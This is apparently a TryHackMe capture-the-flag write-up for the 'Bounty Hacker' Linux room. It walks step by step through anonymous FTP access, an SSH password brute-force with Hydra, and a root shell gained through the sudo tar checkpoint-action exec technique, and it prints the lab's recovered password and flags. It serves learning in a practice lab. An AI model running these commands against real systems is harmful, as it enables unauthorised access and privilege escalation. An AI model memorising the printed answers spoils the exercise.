









# TryHackMe - Bounty Hacker


## Room Information

**Bounty Hacker** is a beginner-friendly Linux machine that focuses on reconnaissance, service enumeration, anonymous FTP access, credential discovery, SSH authentication, and Linux privilege escalation using misconfigured `sudo` permissions.

---

## Objective

The objective of this room was to enumerate the target machine, answer the room's questions, gain initial access via SSH, escalate privileges to root, and retrieve both the user and root flags.

---

## Tools Used

- Nmap
- FTP
- Hydra
- SSH
- GTFOBins
- Linux Command Line

---

# Task 1 - Living up to the Title

## Deploy the Machine

The target machine was deployed successfully and was ready for enumeration.

---

## Find Open Ports on the Machine

I began by performing an Nmap scan to identify the open ports and running services.

```bash
nmap -sV -sS -T4 10.48.182.16
```

### Results

| Port | Service | Version |
|------|----------|---------|
| 21 | FTP | vsftpd 3.0.5 |
| 22 | SSH | OpenSSH 8.2p1 |
| 80 | HTTP | Apache 2.4.41 |

The FTP service immediately stood out because anonymous login is commonly enabled on beginner Linux machines.



---

## Question 1

### Who wrote the task list?

Since FTP allowed anonymous access, I connected to the server for further enumeration.

```bash
ftp 10.48.182.16
```

Login:

```text
Username: anonymous
Password:
```

Listing the directory contents revealed two files.

```text
locks.txt
task.txt
```



I opened the task file.

```bash
more task.txt
```

Contents:

```text
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The signature revealed the author of the task list.

### Answer

```text
lin
```



---

## Question 2

### What service can you bruteforce with the text file found?

The second file (`locks.txt`) appeared to contain a password list.

Since the username **lin** had already been identified and SSH (port 22) was open, the password list could be used to brute-force the SSH service.

I downloaded the password list.

```bash
get locks.txt
```



### Answer

```text
SSH
```

---

## Question 3

### What is the user's password?

I used Hydra to test every password inside `locks.txt` against the SSH service.

```bash
hydra -l lin -P locks.txt ssh://10.48.182.16 -t 4 -f
```

Hydra successfully recovered the password.

```text
Username: lin
Password: RedDr4gonSynd1cat3
```



### Answer

```text
RedDr4gonSynd1cat3
```

---

## Question 4

### user.txt

Using the discovered credentials, I connected to the target machine via SSH.

```bash
ssh lin@10.48.182.16
```

After logging in successfully, I navigated to the Desktop directory and located the user flag.

```bash
cat ~/Desktop/user.txt
```

Output:

```text
THM{CR1M3_SyNd1C4T3}
```





### Answer

```text
THM{CR1M3_SyNd1C4T3}
```

---

## Question 5

### root.txt

To identify privilege escalation opportunities, I checked the user's sudo permissions.

```bash
sudo -l
```

Output:

```text
(root) /bin/tar
```

This indicated that the user could execute `tar` as root without restrictions.



Searching **GTFOBins** showed that `tar` can execute arbitrary commands when run through sudo.

I executed:

```bash
sudo /bin/tar -cf /dev/null /dev/null \
--checkpoint=1 \
--checkpoint-action=exec=/bin/sh
```

This spawned a root shell.

```bash
whoami
```

Output:

```text
root
```

Finally, I displayed the root flag.

```bash
cat /root/root.txt
```

Output:

```text
THM{80UN7Y_h4cK3r}
```



### Answer

```text
THM{80UN7Y_h4cK3r}
```

---

# Attack Flow

```text
Nmap Scan
      │
      ▼
Anonymous FTP Login
      │
      ▼
Enumerate FTP Files
      │
      ▼
Download task.txt & locks.txt
      │
      ▼
Discover Username (lin)
      │
      ▼
Hydra SSH Brute Force
      │
      ▼
SSH Login
      │
      ▼
Read user.txt
      │
      ▼
sudo -l
      │
      ▼
GTFOBins (tar)
      │
      ▼
Root Shell
      │
      ▼
Read root.txt
```

---

# Lessons Learned

- Always enumerate every exposed service before attempting exploitation.
- Anonymous FTP access can expose sensitive information useful for further attacks.
- Information gathered during enumeration, such as usernames and password lists, can be chained together to gain initial access.
- Running `sudo -l` should always be one of the first privilege escalation checks after obtaining a shell.
- GTFOBins is an excellent resource for identifying privilege escalation techniques using allowed binaries.

---

# Conclusion

The **Bounty Hacker** room demonstrates how multiple low-severity misconfigurations can be chained together to fully compromise a Linux system. Anonymous FTP exposed useful files that revealed a valid username and password list, which led to successful SSH access. A misconfigured sudo rule allowing the execution of `tar` as root ultimately enabled privilege escalation and retrieval of the root flag. This room reinforces the importance of thorough enumeration and checking sudo permissions during Linux privilege escalation.
